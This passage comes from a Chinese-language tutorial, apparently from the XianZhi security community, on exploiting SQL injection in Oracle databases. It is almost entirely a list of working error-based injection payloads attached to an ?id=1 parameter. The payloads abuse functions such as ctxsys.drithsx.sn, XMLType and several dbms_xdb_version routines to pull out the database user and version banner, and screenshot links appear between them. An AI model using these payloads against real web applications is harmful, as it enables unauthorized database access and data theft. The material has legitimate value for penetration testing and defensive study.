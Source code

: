 ```
#获取当前数据库用户 ORACLE1?id=1 and 1=ctxsys.drithsx.sn(1,(select user from dual)) --
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095414-e04b6932-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095414-e04b6932-f00f-1.png)

```
#获取数据库版本信息?id=1 and 1=ctxsys.drithsx.sn(1,(select banner from sys.v_$version where rownum=1)) --
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095414-e07a892e-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095414-e07a892e-f00f-1.png)

#### 2、XMLType()

```
?id=1 and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null --
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095414-e0a3a8b8-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095414-e0a3a8b8-f00f-1.png)

#### 3、dbms_xdb_version.checkin()

```
#获取数据库版本信息?id=1 and (select dbms_xdb_version.checkin((select banner from sys.v_$version where rownum=1)) from dual) is not null --
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095415-e0c8830e-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095415-e0c8830e-f00f-1.png)

#### 4、bms_xdb_version.makeversioned()

```
#获取当前数据库用户 ORACLE1?id=1 and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null --
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095415-e0edd1d6-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095415-e0edd1d6-f00f-1.png)

#### 5、dbms_xdb_version.uncheckout()

```
#获取数据库版本信息?id=1 and (select dbms_xdb_version.uncheckout((select banner from sys.v_$version where rownum=1)) from dual) is not null --
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095415-e11f0300-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095415-e11f0300-f00f-1.png)

#### 6、dbms_utility.sqlid_to_sqlhash()

```
#获取数据库版本信息?id=1 and (SELECT dbms_utility.sqlid_to_sqlhash((select banner from sys.v_$version where rownum=1)) from dual) is not null --
```
